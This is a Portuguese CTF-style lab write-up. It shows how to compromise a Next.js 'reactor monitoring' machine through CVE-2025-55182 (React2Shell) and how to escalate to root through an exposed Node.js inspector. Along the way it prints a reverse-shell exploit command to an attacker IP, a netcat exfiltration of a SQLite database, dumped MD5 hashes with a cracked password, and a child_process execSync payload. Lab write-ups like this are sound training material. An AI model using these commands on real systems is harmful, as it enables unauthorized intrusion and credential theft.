# Visão Geral
A aplicação é vulnerável ao CVE-2025-55182 (React2Shell), uma falha de desserialização insegura em React Server Components que permite RCE não autenticado. Explorando essa falha via PoC pública, obtemos execução como o usuário de serviço node. A partir daí, enumeramos o diretório da aplicação e localizamos um banco SQLite com registros de usuários, de onde extraímos um hash MD5 que, uma vez quebrado, fornece credenciais SSH válidas para o usuário engineer.

A escalada para root explora um serviço de monitoramento rodando com a flag de debug --inspect do Node.js, vinculada a uma porta local - tunelando até ela e interagindo via protocolo V8 Inspector, conseguimos execução de código como root.

# Reconhecimento

Iniciamos com uma enumeração do host, utilizando o Nmap afim de identificar serviços expostos e portas ativas.

```
nmap -p- --min-rate 1600 -sVC -Pn --open 10.129.2.73
```

Obtendo as portas:



Em seguida, acessamos a aplicação web e nos deparamos com uma aplicação de monitoramento de um reator



Em seguida, utilizamos a ferramenta `Wappalyzer` para descobrir quais tecnologias existem na aplicação em que descobrirmos que a aplicação foi desenvolvida em `NextJs` na versão `15.0.3` 



Buscando por vulnerabilidades nesta versão especifica, encontramos a `CVE-2025-55182` que permite `Remote Code Execution` não autenticado. 

```shell
https://nvd.nist.gov/vuln/detail/CVE-2025-55182
```

# Exploração CVE-2025-55182

Para explorarmos essa vulnerabilidade utilizamos o `exploit`  para executar `RCE` 

```shell
https://github.com/zr0n/react2shell
```

Executando o exploit conseguimos uma conexão de `reverse shell` como usuário `node`: 

```shell
node react2shell.js http://10.129.2.73:3000 shell 10.10.16.18 4444
```



Analisando o diretório em que estamos, identificamos o arquivo `reactor.db` que provavelmente possui credenciais 



# Movimentação Lateral

Acessando o arquivo `reactor.db` encontramos informações sobre o banco de dados porém não está de forma clara



Sendo assim transferimos o arquivo para nosso host via `netcat`.

```shell
nc -w3 10.10.16.18 3333 < /opt/reactor-app/reactor.db
```



Utilizando a ferramenta `SQLite3`  para ler o arquivo de banco de dados, como vimos no arquivo ainda dentro do host as credenciais estão dentro da tabelas `users` sendo assim podemos fazer a consulta diretamente pela tabela obtendo as hashes de senhas das credenciais dos usuários `engineer` e `admin`

```shell
sqlite3 reactor.db
```

Credenciais
```shell
admin|a203b22191d744a4e70ada5c101b17b8
engineer|39d97110eafe2a9a68639812cd271e8e
```



Utilizando a ferramenta `Hashcat` conseguimos obter apenas a senha do usuário `engineer` 

```
hashcat -m 0 engineer.txt /usr/share/wordlists/rockyou.txt
```

Senha do usuário:

```
reactor1
```


# Obtendo a user flag

Com a credencial do usuário `engineer` podermos acessar o serviço `SSH` e assim obter a `user flag`  


# Escalação de Privilégios

Descobrirmos que o usuário `engineer` não possui permissão para executar nenhum comando com privilégios elevados via `sudo`, então utilizamos a ferramenta `linpeas.sh` para enumerar o sistema em busca de vetores para escalonamento de privilégios

```shell
./linpeas.sh
```

Com o `linpeas` identificamos o serviço `Node.js Inspector` escutando na porta `9229` vinculado ao loopback `127.0.0.1` que só pode ser acessado internamente. 



Em que através do comando `ps aux`, confirmamos que o processo estava sendo executado como root: 

```shell
ps aux | grep node
```



Para acessar esse serviço realizamos um tunelamento via `SSH` através do comando: 

```shell
# Na minha máquina
ssh -L 9229:127.0.0.1:9229 engineer@10.129.2.73
```

Com o tunelamento ativo, nos conectamos com o `debugger` permitindo nossa interação e confirmando que estamos como `root`

```shell
node inspect 127.0.0.1:9229
```


# Obtendo a root flag

Como usuário `root` executamos o seguinte comando para lermos a flag:

```shell
exec("process.mainModule.require('child_process').execSync('cat /root/root.txt').toString()")
```




